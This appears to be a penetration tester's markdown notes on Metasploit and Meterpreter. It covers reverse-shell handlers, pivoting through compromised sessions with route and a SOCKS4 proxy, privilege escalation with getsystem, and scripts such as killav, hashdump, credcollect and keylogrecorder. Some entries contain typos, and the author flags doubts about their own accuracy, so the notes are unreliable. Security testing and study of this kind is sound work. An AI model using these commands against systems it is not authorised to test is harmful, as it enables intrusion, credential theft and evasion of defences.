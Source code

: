 ```yaml
---
title: Metasploit
---
```


## Metasploit
###### Commands
show options for the payload. 
```
show targets
show options
```
A common module is the ‘exploit/multi/handler’ module which is used to handle payloads. For example, if you launch an exploit outside of Metasploit, this module can be used to set up a payload that listens for and handles incoming reverse TCP connections on the specified port and host.
```
use exploit/multi/handler
```
Particularly when you are located on a different subnet, you may not be able to access all of the targets included in the customer scope. Once you compromise hosts that may have routes to other targets, you can utilize the Metasploit ‘route’ command in conjunction with a SOCKS4 proxy to route traffic through open sessions (i.e. from your phishing campaign or other exploitation).

```
route add "destination ip" "subnet" "session ?"
```
```
use auxiliary/server/socs4a
```
Set the srvhost:
```
set srvhost "local for most cases"
```
Set the srvport:
```
set srvport "port"
```
Now you can start the proxy server. 
```
run
```
Once you have set up the route and proxy server in Metasploit, you can use proxychains or modify your connection settings in your browser for SOCKS4 proxy configuration: Use the GUI network configuration guide to setup a SOCKS local host listener on your configured port. Double Check for Socks 4.

I think the portfwd command that creates a relay from the local host to the destination host will work for certain situations. 

## Meterpreter
Suggest post exploitation paths
```
run post/multi/recon/local_exploit_suggester
```
Get Administrator
```
getsystem
```
Drop into a command prompt
```
shell
```

Creates relay from a meterpreter session
```
portfwd add -l 22 -p 22 -r 10.20.170.87
```

###### Systeminfo
Check the system and current process that the session is running as. I had an issue where the exploit gave me a x86 (WOW64 32 bit) shell and the privesc needed x64 (64bit).
^ This statement might be completely false lol ^
```
sysinfo
```

###### I am not sure if this migrated me to a (x86) process. Always check with sysinfo. 
```
run post/windows/manage/migrate
```

###### Core Commands
Background the meterpreter session
```
background
```
Bring that meterpreter session to the foreground. Trick here is hitting tab to see available sessions. 
```
session -i "session id"
```

Meterpreter Scripts
```
killav
metsvc
migrate
netenum
prefetchtool
vnc_oneport / vnc
sheduleme
winenum
credcollect
get_local_subnets
getcountermeasure
getgui
gettelnet
hashdump
keylogrecorder
checkvm
```